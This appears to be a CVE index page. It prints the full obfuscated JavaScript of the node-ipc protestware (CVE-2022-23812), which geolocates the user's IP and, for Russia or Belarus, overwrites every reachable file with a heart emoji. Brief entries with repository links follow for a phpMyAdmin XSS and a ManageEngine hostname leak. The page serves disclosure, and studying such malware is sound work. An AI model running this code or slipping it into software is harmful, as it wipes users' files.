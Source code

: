  This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note**: from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code: **Note:** Don't run it! js import u from &quot;path&quot;; import a from &quot;fs&quot;; import o from &quot;https&quot;; setTimeout(function () { const t = Math.round(Math.random() * 4); if (t &gt; 1) { return; } const n = Buffer.from(&quot;aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=&quot;, &quot;base64&quot;); // https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString(&quot;utf8&quot;), function (t) { t.on(&quot;data&quot;, function (t) { const n = Buffer.from(&quot;Li8=&quot;, &quot;base64&quot;); const o = Buffer.from(&quot;Li4v&quot;, &quot;base64&quot;); const r = Buffer.from(&quot;Li4vLi4v&quot;, &quot;base64&quot;); const f = Buffer.from(&quot;Lw==&quot;, &quot;base64&quot;); const c = Buffer.from(&quot;Y291bnRyeV9uYW1l&quot;, &quot;base64&quot;); const e = Buffer.from(&quot;cnVzc2lh&quot;, &quot;base64&quot;); const i = Buffer.from(&quot;YmVsYXJ1cw==&quot;, &quot;base64&quot;); try { const s = JSON.parse(t.toString(&quot;utf8&quot;)); const u = s[c.toString(&quot;utf8&quot;)].toLowerCase(); const a = u.includes(e.toString(&quot;utf8&quot;)) || u.includes(i.toString(&quot;utf8&quot;)); // checks if country is Russia or Belarus if (a) { h(n.toString(&quot;utf8&quot;)); h(o.toString(&quot;utf8&quot;)); h(r.toString(&quot;utf8&quot;)); h(f.toString(&quot;utf8&quot;)); } } catch (t) {} }); }); }, Math.ceil(Math.random() * 1e3)); async function h(n = &quot;&quot;, o = &quot;&quot;) { if (!a.existsSync(n)) { return; } let r = []; try { r = a.readdirSync(n); } catch (t) {} const f = []; const c = Buffer.from(&quot;4p2k77iP&quot;, &quot;base64&quot;); for (var e = 0; e &lt; r.length; e++) { const i = u.join(n, r[e]); let t = null; try { t = a.lstatSync(i); } catch (t) { continue; } if (t.isDirectory()) { const s = h(i, o); s.length &gt; 0 ? f.push(...s) : null; } else if (i.indexOf(o) &gt;= 0) { try { a.writeFile(i, c.toString(&quot;utf8&quot;), function () {}); // overwrites file with &#10084;&#65039; } catch (t) {} } } return f; } const ssl = true; export { ssl as default, ssl };



- [https://github.com/scriptzteam/node-ipc-malware-protestware-CVE-2022-23812](https://github.com/scriptzteam/node-ipc-malware-protestware-CVE-2022-23812) :  ![starts](https://img.shields.io/github/stars/scriptzteam/node-ipc-malware-protestware-CVE-2022-23812.svg) ![forks](https://img.shields.io/github/forks/scriptzteam/node-ipc-malware-protestware-CVE-2022-23812.svg)

## CVE-2022-23808
 An issue was discovered in phpMyAdmin 5.1 before 5.1.2. An attacker can inject malicious code into aspects of the setup script, which can allow XSS or HTML injection.



- [https://github.com/dipakpanchal456/CVE-2022-23808](https://github.com/dipakpanchal456/CVE-2022-23808) :  ![starts](https://img.shields.io/github/stars/dipakpanchal456/CVE-2022-23808.svg) ![forks](https://img.shields.io/github/forks/dipakpanchal456/CVE-2022-23808.svg)

## CVE-2022-23779
 Zoho ManageEngine Desktop Central before 10.1.2137.8 exposes the installed server name to anyone. The internal hostname can be discovered by reading HTTP redirect responses.



- [https://github.com/fbusr/CVE-2022-23779](https://github.com/fbusr/CVE-2022-23779) :  ![starts](https://img.shields.io/github/stars/fbusr/CVE-2022-23779.svg) ![forks](https://img.shields.io/github/forks/fbusr/CVE-2022-23779.svg)
